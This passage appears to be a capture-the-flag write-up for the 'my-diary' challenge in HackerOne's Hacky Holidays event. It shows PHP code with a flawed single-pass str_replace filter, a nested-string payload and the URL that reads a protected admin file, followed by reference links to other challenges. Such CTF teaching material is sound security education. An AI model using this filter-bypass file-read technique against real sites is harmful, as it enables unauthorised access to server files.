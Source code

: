 ```javascript
        $page = $_GET["template"];
         //remove non allowed characters
         $page = preg_replace('/([^a-zA-Z0-9.])/','',$page);
         //protect admin.php from being read
         $page = str_replace("admin.php","",$page);
        //I've changed the admin file to secretadmin.php for more security!
        $page = str_replace("secretadmin.php","",$page);
        //check file exists
       if( file_exists($page) ){
              echo file_get_contents($page);
        }else{
             //redirect to home
              header("Location: /my-diary/?template=entries.html");
              exit();
         }
}else{
        //redirect to home
        header("Location: /my-diary/?template=entries.html");
exit();
```
Description about code:
First it checks if it gets any data on GET parameter `template`, if it gets some data it removes any special character(regular expression used to find any character which is not in a-z, A-Z and 0-9 and replace it with nothing), so we can’t use any special character. 
Next it replaces any occurrences of string `admin.php` in data with nothing.
And then it replaces any occurrences of string `secretadmin.php` in data with nothing.
It then checks if the page exists or not, if exits it shows contents of that page and exits if the page does not exist it redirects to home page and exits.
In order to get contents of `secretadmin.php` we can make use of it’s replace function. The replacement only applies once. To explain this in detail, I am using php interactive mode `php -a` command. Goal is to get `secretadmin.php` at last.
```
┌─[shubham@parrot]─[~/hackyholidays/mydiary]
└──╼ $php -a
Interactive mode enabled

php > echo preg_replace('/([^a-zA-Z0-9.])/','',"secretasecretaadmin.phpdmin.phpdmin.php");
secretasecretaadmin.phpdmin.phpdmin.php
php > echo str_replace("admin.php","","secretasecretaadmin.phpdmin.phpdmin.php");
secretasecretadmin.phpdmin.php
php > echo str_replace("secretadmin.php","","secretasecretadmin.phpdmin.php");
secretadmin.php
php > 
```
I sent `secretasecretaadmin.phpdmin.phpdmin.php` as data, this string does not contain any special character the `preg_replace` does not affect the data.
On first replace it replaces any occurrences `admin.php` with nothing so makes data as `secretasecretadmin.phpdmin.php`.
And finally, when it replaces any occurrences of `secretadmin.php` with nothing, the final result becomes `secretadmin.php`.
On browsing [https://hackyholidays.h1ctf.com/my-diary/?template=secretasecretaadmin.phpdmin.phpdmin.php][10] got the flag.
[10]: https://hackyholidays.h1ctf.com/my-diary/?template=secretasecretaadmin.phpdmin.phpdmin.php    "https://hackyholidays.h1ctf.com/my-diary/?template=secretasecretaadmin.phpdmin.phpdmin.php"
{F1132350}


[1]: https://hackerone.com/h1-ctf         "https://hackerone.com/h1-ctf"
[2]: https://hackyholidays.h1ctf.com/robots.txt       "https://hackyholidays.h1ctf.com/robots.txt"
[3]: https://hackyholidays.h1ctf.com/s3cr3t-ar3a "https://hackyholidays.h1ctf.com/s3cr3t-ar3a"
[5]: https://hackyholidays.h1ctf.com/swag-shop     "https://hackyholidays.h1ctf.com/swag-shop"
[6]: https://hackyholidays.h1ctf.com/swag-shop/api/sessions             "https://hackyholidays.h1ctf.com/swag-shop/api/sessions"
[7]: https://hackyholidays.h1ctf.com/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043    "/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043"
[8]: https://hackyholidays.h1ctf.com/secure-login          "https://hackyholidays.h1ctf.com/secure-login"
[8]: https://hackyholidays.h1ctf.com/my-diary/         "https://hackyholidays.h1ctf.com/my-diary/"
[9]: https://hackyholidays.h1ctf.com/my-diary/?template=index.php       "index.php"
[11]: https://hackyholidays.h1ctf.com/hate-mail-generator   "https://hackyholidays.h1ctf.com/hate-mail-generator"
[12]: https://hackyholidays.h1ctf.com/hate-mail-generator/templates/      "https://hackyholidays.h1ctf.com/hate-mail-generator/templates/"
[14]: https://github.com/Grinch-Networks/forum                 "https://github.com/Grinch-Networks/forum"
[13]: https://hackyholidays.h1ctf.com/forum              "https://hackyholidays.h1ctf.com/forum"
[15]:  https://hackyholidays.h1ctf.com/forum/phpmyadmin    "phpmyadmin"
[16]: https://hashes.org/search.php       "hashes.org"
[17]: https://hackyholidays.h1ctf.com/forum/login          "login"
[18]: https://hackyholidays.h1ctf.com/evil-quiz           "https://hackyholidays.h1ctf.com/evil-quiz"
[19]: https://pentest.blog/exploiting-second-order-sqli-flaws-by-using-burp-custom-sqlmap-tamper/   "this"
[20]: https://hackyholidays.h1ctf.com/evil-quiz/admin       "admin"
[21]: https://hackyholidays.h1ctf.com/signup-manager/         "https://hackyholidays.h1ctf.com/signup-manager/"
[22]: https://hackyholidays.h1ctf.com/signup-manager/README.md   "https://hackyholidays.h1ctf.com/signup-manager/README.md"
[23]: https://hackyholidays.h1ctf.com/signup-manager/signupmanager.zip     "https://hackyholidays.h1ctf.com/signup-manager/signupmanager.zip" 
[24]: https://www.php.net/manual/en/function.is-numeric.php        "here"
[25]: https://www.php.net/manual/en/language.types.float.php      "number"
[26]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59            "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59"
[27]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api       "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api"
[28]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k    "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k"
[29]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/uploads/13d74554c30e1069714a5a9edda8c94d.jpg "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/uploads/13d74554c30e1069714a5a9edda8c94d.jpg"
[30]: https://captnemo.in/blog/2012/06/09/nested-sql-injections/   "Here"
[31]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api      "api"
[32]: https://github.blog/2015-11-03-like-injection/      "like"
[32]: https://hackyholidays.h1ctf.com/attack-box/login     "attack-box"
[33]: https://en.wikipedia.org/wiki/DNS_rebinding   "DNS-rebinding"
[34]: https://github.com/taviso/rbndr    "https://github.com/taviso/rbndr"